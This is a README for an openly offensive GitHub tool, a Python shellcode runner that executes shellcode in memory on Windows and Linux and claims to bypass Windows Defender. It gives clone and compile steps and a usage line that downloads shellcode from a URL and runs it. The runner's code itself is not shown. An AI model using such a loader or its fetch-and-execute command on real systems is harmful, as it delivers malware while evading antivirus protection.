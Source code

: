 # buffshark-shellcode-runner

## Python Shellcode Runner for windows and linux
This script utilizes mmap(for linux) and win32 api wrappers (for windows) to execute shellcode in memory and bypass Windows Defender.

## Installation and Compiling
1. Download the repo: `git clone https://github.com/momo1239/buffshark-shellcode-runner`
2. `cd buffshark-shellcode-runner/`
3. Optional: Install pyinstaller to compile to windows executable: `pip install pyinstaller`
4. Optional: Compile: `pyinstaller -F buffshark.py`

## Usage
Example: `python3 buffshark.py -u http://127.0.0.1:8080/shellcode.bin -a [win/nix]`
